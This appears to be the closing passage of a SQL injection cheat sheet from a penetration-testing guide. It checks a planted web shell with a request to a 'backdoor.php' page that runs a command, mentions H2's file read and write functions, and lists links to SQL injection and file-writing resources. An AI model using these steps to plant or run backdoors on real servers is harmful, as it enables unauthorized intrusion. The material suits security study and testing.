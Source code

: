 This command may produce an error, but that does not mean it wasn't successful.  To verify, simply test the page to see if it exists:

```sql
http://192.168.216.10/backdoor.php&cmd=ipconfig
```

H2 Database uses the FILE_WRITE(), FILE_READ() commands instead.

### Links:

https://portswigger.net/web-security/sql-injection/union-attacks

https://portswigger.net/web-security/sql-injection/cheat-sheet

https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/

http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

https://www.exploit-db.com/papers/13650

Validate Syntax:  https://www.eversql.com/sql-syntax-check-validator/

Good technical info for outfile & loadfile:  https://www.exploit-db.com/papers/14635